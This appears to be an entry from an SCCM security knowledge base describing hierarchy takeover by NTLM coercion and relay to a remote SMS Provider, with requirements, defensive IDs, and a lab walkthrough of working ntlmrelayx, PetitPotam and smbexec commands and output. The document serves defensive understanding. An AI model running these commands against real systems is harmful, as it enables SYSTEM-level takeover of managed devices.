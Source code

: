 # TAKEOVER-6

## Description
Hierarchy takeover via NTLM coercion and relay to SMB on remote SMS Provider


## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-6.1: Coerce primary site server
    - TAKEOVER-6.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server [DEFAULT]
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target [DEFAULT]

### Relay
- Connectivity from the relay server to SMB (TCP/445) on the relay target
- Relay target settings:
    - `RequireSecuritySignature` = `0` or not present [DEFAULT]
    - `RestrictReceivingNTLMTraffic` = `0` or not present [DEFAULT]
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target [DEFAULT]
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target [DEFAULT]

## Summary
The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations. The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. An attacker who is able to successfully coerce NTLM authentication from a site server can escalate to "Full Administrator" by elevating to "NT\AUTHORITY SYSTEM" on the SMS Provider.

## Impact
This technique may allow an attacker to relay a site server domain computer account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-5: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-5/detect-5_description.md)
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-12/prevent-12_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Examples
1. Use `SCCMHunter` to  profile SCCM infrastructure:

    ```
    [02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
    [02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```
2. On the attacker relay server, start `ntlmrelayx`, targeting the SMB service remote SMS Provider identified in the previous step:
    ```
    └─# ntlmrelayx.py -t smb://10.10.100.12 -socks -smb2support
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Running in relay mode to single host
    [*] SOCKS proxy started. Listening on 127.0.0.1:1080
    [*] HTTPS Socks Plugin loaded..
    [*] HTTP Socks Plugin loaded..
    [*] MSSQL Socks Plugin loaded..
    [*] SMTP Socks Plugin loaded..
    [*] SMB Socks Plugin loaded..
    [*] IMAPS Socks Plugin loaded..
    [*] IMAP Socks Plugin loaded..
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
    * Debug mode: off
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666
    ```

3. From the attacker host, coerce NTLM authentication from the site server targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the SMB service on the SMS provider and the authenticated session is held open

    ```
    [*] Servers started, waiting for connections
    Type help for list of commands
    ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 10.10.100.9, attacking target smb://10.10.100.12
    [*] Authenticating against smb://10.10.100.12 as LAB/SCCM$ SUCCEED
    [*] SOCKS: Adding LAB/SCCM$@10.10.100.12(445) to active SOCKS connection. Enjoy
    [*] SMBD-Thread-10 (process_request_thread): Connection from 10.10.100.9 controlled, but there are no more targets left!
    [*] SOCKS: Proxying client session for LAB/SCCM$@10.10.100.12(445)
    socks
    Protocol  Target        Username   AdminStatus  Port
    --------  ------------  ---------  -----------  ----
    SMB       10.10.100.12  LAB/SCCM$  TRUE         445
    ntlmrelayx>
    ```

 4. Proxy `smbexec.py` in the context of the site server through the authenticated session to establish interactive access on the target host as NT\AUTHORITY SYSTEM:
    ```
    └─# proxychains smbexec.py LAB/SCCM\$@10.10.100.12 -codec 437 -no-pass
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.16
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.100.12:445  ...  OK
    [!] Launching semi-interactive shell - Careful what you execute
    C:\Windows\system32>wmic /namespace:\\root\sms\site_lab path SMS_Admin get AdminID,LogonName
     ■AdminID   LogonName
    16777217  LAB\Administrator
    16777220  LAB\lowpriv

    C:\Windows\system32>
    ```

## References
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
- Garrett Foster, [Site Takeover via SCCM's AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)
- Microsoft, [Plan for the SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider)
